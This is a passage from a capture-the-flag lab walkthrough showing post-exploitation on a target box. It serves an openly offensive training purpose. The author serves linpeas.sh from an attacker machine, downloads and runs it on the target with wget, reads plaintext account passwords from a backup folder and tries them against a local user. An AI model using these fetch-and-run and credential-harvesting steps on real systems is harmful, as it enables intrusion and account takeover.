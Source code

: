 User flag can only be read by `mike` user.

Let's upload `linpeas.sh`. Start a server on local machine:

```bash
python3 -m http.server 8081
```

Then download get linpeas on target machine:

```bash
wget 10.6.31.49:8081/linpeas.sh
```

Then run it.

Lots of findings here. Let's go step by step. First we find:


```bash
╔══════════╣ Readable files inside /tmp, /var/tmp, /private/tmp, /private/var/at/tmp, /private/var/tmp, and backup folders (limit 70)
-rwxr-xr-x 1 root root 3772 May 24  2021 /var/backups/mike_home_backup/.bashrc                                                                                                                                                              
-rwxr-xr-x 1 root root 135 May 24  2021 /var/backups/mike_home_backup/.bash_history
-rwxr-xr-x 1 root root 220 May 24  2021 /var/backups/mike_home_backup/.bash_logout
-rwxr-xr-x 1 root root 20549 May 24  2021 /var/backups/mike_home_backup/images/23-04.jpg
-rwxr-xr-x 1 root root 159262 May 24  2021 /var/backups/mike_home_backup/images/my-cat.jpg
-rwxr-xr-x 1 root root 436526 May 24  2021 /var/backups/mike_home_backup/images/26-04.jpg
-rwxr-xr-x 1 root root 103 May 24  2021 /var/backups/mike_home_backup/documents/accounts.txt
-rwxr-xr-x 1 root root 807 May 24  2021 /var/backups/mike_home_backup/.profile
```

This file looks interesting `-rwxr-xr-x 1 root root 103 May 24  2021 /var/backups/mike_home_backup/documents/accounts.txt`. Let's check it out:

```basH
cat /var/backups/mike_home_backup/documents/accounts.txt

Spotify : mike@gmail.com:mycat666
Netflix : mike@gmail.com:123456789pass
TryHackme: mike:darkhacker123
```

The accounts in `accounts.txt` seems to be linked to other stuffs, but maybe some password were re-used.

Let's try to log as `mike` first with the password `darkhacker123`. Nothing. `123456789pass`. Nothing. `mycat666`. Nothing.

We also find:

```bash
╔══════════╣ Unexpected in /opt (usually empty)
total 12                                                                                                                                                                                                                                    
drwxr-xr-x  2 root root 4096 May 22  2021 .
drwxr-xr-x 23 root root 4096 Feb 12  2022 ..
-rw-r--r--  1 root root  364 May 20  2021 rootkit.sh
```

